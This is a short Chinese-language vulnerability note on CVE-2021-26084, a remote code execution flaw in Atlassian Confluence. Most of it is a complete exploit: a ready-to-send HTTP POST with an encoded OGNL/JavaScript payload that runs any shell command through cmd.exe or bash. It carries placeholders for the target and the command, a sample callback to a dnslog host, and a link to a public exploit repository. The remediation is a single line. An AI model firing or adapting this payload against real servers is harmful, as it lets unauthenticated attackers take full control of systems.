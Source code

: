 ### 一 漏洞描述
Atlassian Confluence是Atlassian公司出品的专业的企业知识管理与协同软件，可用于构建企业文库等。2021年8月26日Atlassian官方发布公告，披露了CVE-2021-26084 Atlassian Confluence 远程代码执行漏洞。2021年8月31日，互联网上公开了相关漏洞利用脚本，攻击者可在无需登录的情况下构造恶意请求，执行任意代码，控制服务器。

### 二 漏洞利用
```
POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1
Host: {漏洞目标}
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=A907F59BAEEDC09A0E0644DD4CB82B73
Content-Length: 1095

queryString=aaaaaaaa%5Cu0027%2B%7BClass.forName%28%5Cu0027javax.script.ScriptEngineManager%5Cu0027%29.newInstance%28%29.getEngineByName%28%5Cu0027JavaScript%5Cu0027%29.%5Cu0065val%28%5Cu0027var+isWin+%3D+java.lang.System.getProperty%28%5Cu0022os.name%5Cu0022%29.toLowerCase%28%29.contains%28%5Cu0022win%5Cu0022%29%3B+var+cmd+%3D+new+java.lang.String%28%5Cu0022{待执行命令}%5Cu0022%29%3Bvar+p+%3D+new+java.lang.ProcessBuilder%28%29%3B+if%28isWin%29%7Bp.command%28%5Cu0022cmd.exe%5Cu0022%2C+%5Cu0022%2Fc%5Cu0022%2C+cmd%29%3B+%7D+else%7Bp.command%28%5Cu0022bash%5Cu0022%2C+%5Cu0022-c%5Cu0022%2C+cmd%29%3B+%7Dp.redirectErrorStream%28true%29%3B+var+process%3D+p.start%28%29%3B+var+inputStreamReader+%3D+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3B+var+bufferedReader+%3D+new+java.io.BufferedReader%28inputStreamReader%29%3B+var+line+%3D+%5Cu0022%5Cu0022%3B+var+output+%3D+%5Cu0022%5Cu0022%3B+while%28%28line+%3D+bufferedReader.readLine%28%29%29+%21%3D+null%29%7Boutput+%3D+output+%2B+line+%2B+java.lang.Character.toString%2810%29%3B+%7D%5Cu0027%29%7D%2B%5Cu0027
```
替换上述的{漏洞目标}和{待执行命令}(如ping+666.xxxxxx.dnslog.cn)

![img.png](img.png)

### 三 漏洞修复
升级Confluence版本到安全版本以上

> 参考链接  
> http://blog.nsfocus.net/atlassian-confluence/
> exp: https://github.com/h3v0x/CVE-2021-26084_Confluence  
